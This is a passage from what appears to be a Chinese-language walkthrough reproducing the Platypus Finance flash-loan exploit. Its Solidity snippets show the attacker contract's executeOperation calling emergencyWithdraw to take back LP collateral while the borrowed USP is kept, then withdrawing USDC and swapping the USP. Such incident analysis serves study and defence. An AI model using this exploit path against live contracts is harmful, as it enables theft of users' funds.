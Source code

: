 
### - **step5：向 `masterPlatypusV4的emergencyWithdraw`紧急取款 LP Token**（漏洞在此）

```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        ...
       //step3
      ...
       //step4
      ...
       //step5
        logPositionHealthCheck(address(LP_USDC));
        masterPlatypusV4.emergencyWithdraw(4);//取LP.  抵押LP借的USP还未换，就取款。
        logPositionHealthCheck(address(LP_USDC));

              
        return true;
 }
```

### - step6：向 `platypusPool` 取款 USDC

```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
        console.log("executeOperation");
        console.logBytes(params);

        //step2
        ...
       //step3
      ...
       //step4
      ...
       //step5
        ...
        //step6
        LP_USDC_myBalance = LP_USDC.balanceOf(address(this));
        LP_USDC.approve(address(platypusPool), LP_USDC_myBalance);
        platypusPool.withdraw(address(USDC), LP_USDC_myBalance, 0, address(this), block.timestamp+1000);
        
        return true;
 }
```

### - step7：将白嫖的USP，swap成外面通用的稳定币。
